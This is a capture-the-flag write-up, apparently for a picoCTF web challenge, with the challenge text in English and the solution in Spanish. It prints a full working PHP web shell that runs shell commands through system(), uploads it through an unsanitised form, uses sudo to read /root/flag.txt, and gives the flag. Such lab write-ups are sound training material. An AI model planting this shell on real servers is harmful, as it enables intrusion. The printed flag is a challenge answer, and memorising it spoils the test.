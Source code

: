A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

Additional details will be available after launching your challenge instance.

Hints:
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check `sudo -l`

## Solución
Debido a que no está sanitizada la entrada de archivos, se puede subir cualquier tipo de archivo, incluso un archivo de php, con el cual se puede tomar el control del servidor.

Hay que subir un archivo .php con este código:
```
<html>  
<body>  
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">  
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">  
<input type="SUBMIT" value="Execute">  
</form>  
<pre>  
<?php  
if(isset($_GET['cmd']))  
{  
system($_GET['cmd']);  
}  
?>  
</pre>  
</body>  
</html>
```

Después de subirlo, hay que ir a la url `uploads/archivo.php`. Si se ejecuta el comando `sudo -l`, se podrá ver que comandos se pueden ejecutar con sudo, y en este ejemplo se pueden ejecutar todos los comandos.

Se puede ejecutar `ls /` para ver las carpetas raíz, pero hay que ejecutar `sudo ls /root` para ver los archivos de la carpeta root, si no, no mostrará nada. Existe un archivo llamado flag.txt, y solo hay que ejecutar `sudo cat /root/flag.txt` para obtener la bandera.

`picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}`